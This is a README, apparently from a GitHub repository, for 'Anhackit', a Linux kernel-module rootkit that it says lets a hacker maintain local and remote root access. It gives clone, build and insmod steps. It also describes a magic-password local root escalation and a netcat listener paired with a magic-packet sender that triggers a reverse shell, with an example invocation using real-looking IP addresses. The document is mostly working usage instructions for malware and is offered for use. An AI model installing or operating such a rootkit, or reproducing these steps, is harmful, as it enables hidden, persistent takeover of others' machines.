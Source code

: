 # Anhackit - Local & Remote Rootkit for Linux

This is a simple rootkit/kernel module for Linux that
allow hacker to maintain a local and a remote root access.

# Make & install the rootkit

```bash
  git clone https://github.com/anhackin/anhackit
  
  cd anhackit
  
  [edit the conf.h as you want]
  
  make
  
  insmod anhackit.ko
  
  done!
```



# Local use

```bash
  gcc helloworld.c -o helloworld
  
  ./helloworld <magic_password>
  
  Got root!
```



# Remote use

First, create a netcat listening for a reverse shell:

```bash
  nc -lvp <port>
```


Second, send the magic packet to the rootkit:

```bash
  gcc magic_packet_sender.c -o magic_packet_sender
  
  [sudo] ./magic_packet_sender <source_ip> <dest_ip> <dest_port> <payload>
  
  (where <payload> is the rootkit password set in conf.h)
```

Finally, got root on the reverse shell sended to <source_ip> on <dest_port>!

NB: The rootkit send back a reverse shell to the magicpacket's source ip on the destination port.
    For example if you send the magic packet like this:
    
```bash
  [sudo] ./magic_packet_sender 109.89.103.38 172.217.20.78 8888 anhackin
```


You will get back a reverse shell on 109.89.103.38:8888
